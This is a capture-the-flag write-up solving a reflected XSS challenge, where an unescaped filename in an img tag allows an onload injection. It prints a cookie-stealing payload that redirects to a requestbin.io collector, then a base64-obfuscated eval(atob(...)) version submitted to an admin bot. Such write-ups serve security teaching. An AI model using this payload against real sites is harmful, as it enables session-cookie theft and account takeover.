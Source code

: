 solution
=========

site displays the "filename" (in this case laid-back.jpg) by inserting it into an img tag like so:

```html
<img src="/static/{{ name | safe }}" alt="billboard">
```

this allows XSS. the attacker can try to display an image (before URL encoding) such as:

```html
laid-back.jpg" onload="[javascript code here]
```

to create

```html
<img src="/static/laid-back.jpg" onload="[javascript code here]" alt="billboard">
```

with this payload, we can steal cookies containing the flag from the admin by redirecting the page to a requestbin with the cookie smuggled in theparameter. the javascript code that canachieve this is:

```js
window.location.href = 'https://requestbin.io/12gaer71?cookie='+document.cookie;
```

however, we run into an issue. because there are slashes in the javascript code, the webserver interprets /requestbin.io as a location on the current server. to get around this, we can just base64 encode the payload and wrap it in `atob()` (javascript base64 decode), and then wrap that with `eval()` to execute the resulting decoded code. then URL encode the entire payload to get rid of spaces and quotes.

the final URL encoded payload looks like this:

`http://localhost:38256/display/laid-back.jpg%22%20onload=%22eval(atob('d2luZG93LmxvY2F0aW9uLmhyZWYgPSAnaHR0cHM6Ly9yZXF1ZXN0YmluLmlvLzEyZ2FlcjcxP2Nvb2tpZT0nK2RvY3VtZW50LmNvb2tpZTs='))`

once you have verified this payload works in your own browser, you can submit `/display/laid-back.jpg%22%20onload=%22eval(atob('d2luZG93LmxvY2F0aW9uLmhyZWYgPSAnaHR0cHM6Ly9yZXF1ZXN0YmluLmlvLzEyZ2FlcjcxP2Nvb2tpZT0nK2RvY3VtZW50LmNvb2tpZTs='))` to the admin bot.

the flag will be submitted to the requestbin where you can view it.